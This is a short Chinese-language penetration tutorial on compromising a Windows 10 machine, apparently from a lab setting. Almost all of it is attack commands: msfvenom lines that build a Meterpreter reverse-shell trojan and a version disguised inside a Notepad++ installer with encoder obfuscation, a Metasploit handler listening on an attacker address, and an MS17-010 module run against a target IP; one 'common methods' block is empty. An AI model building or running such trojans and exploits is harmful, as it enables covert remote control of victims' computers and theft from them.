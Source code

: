 ## 使用后门程序渗透WIN10
1. 生成木马
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.44.138 LPORT=1000 -f exe -o testAttack.exe
```
或伪装木马
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.44.138 LPORT=7230 -e x86/shikata_ga_nai -x npp.8.1.9.Installer.exe -i 12 -f exe -o /root/testAttack.exe
```
2. 打开监控程序
```
msfconsole
use exploit/multi/handler
set LHOST 192.168.44.138
set LPORT 7230
exploit
```
3. win10执行木马，监控程序可实时反馈
4. 监控程序常用方法
```

```
## 使用已纰漏的漏洞渗透WIN10
```
msfconsole
search ms17_010
use auxiliary/admin/smb/ms17_010_command
show options
set rhosts 192.168.1.110
run
```
